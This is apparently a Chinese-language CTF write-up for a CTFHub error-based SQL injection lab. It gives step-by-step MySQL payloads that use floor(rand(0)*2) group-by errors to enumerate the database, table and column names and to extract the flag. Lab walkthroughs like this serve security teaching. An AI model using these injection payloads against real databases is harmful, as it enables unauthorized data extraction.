 ### CTFHub(报错注入)

1、简单输入几个数字，皆成功执行，又用and检查了一下，执行的SQL语句类似整数型的注入，测试发现命令只要不是语法错误皆会执行成功并返回“查询正确”的字样，无其他信息，此时使用`1 order by 3`确认了字段数为2。

![image-20210721163206521](https://{{site.PicturesLinks_Domain}}/images/2021/07/21/20210721163206.png)

2、由于题目是利用报错注入进行，故枚举库名，构造执行语句如下：

```mysql
-1 union select count(*),concat((select database()),0x26,floor(rand(0)*2))x from information_schema.columns group by x
```

成功执行，如图：

![image-20210721163712047](https://{{site.PicturesLinks_Domain}}/images/2021/07/21/20210721163712.png)

此处也可以使用语句：

```mysql
-1 union select count(*),concat((select schema_name from information_schema.schemata limit 3,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
```

然后控制limit语句挨个查看相应库名。

3、枚举表名，将上述语句简单变换一下，即：

```mysql
-1 union select count(*),concat((select table_name from information_schema.tables where table_schema='sqli' limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
```

控制limit语句成功爆出2个表名，flag表名如下：

![image-20210721165349061](https://{{site.PicturesLinks_Domain}}/images/2021/07/21/20210721165349.png)

4、枚举字段名，构造语句为：

```mysql
-1 union select count(*),concat((select column_name from information_schema.columns where table_name='flag' limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
```

控制limit语句成功得到相应flag字段名：

![image-20210721165709224](https://{{site.PicturesLinks_Domain}}/images/2021/07/21/20210721165709.png)

5、枚举字段的数值，获得flag，使用语句为：

```mysql
-1 union select count(*),concat((select flag from sqli.flag limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
```

结果如图：

![image-20210721165911648](https://{{site.PicturesLinks_Domain}}/images/2021/07/21/20210721165911.png)
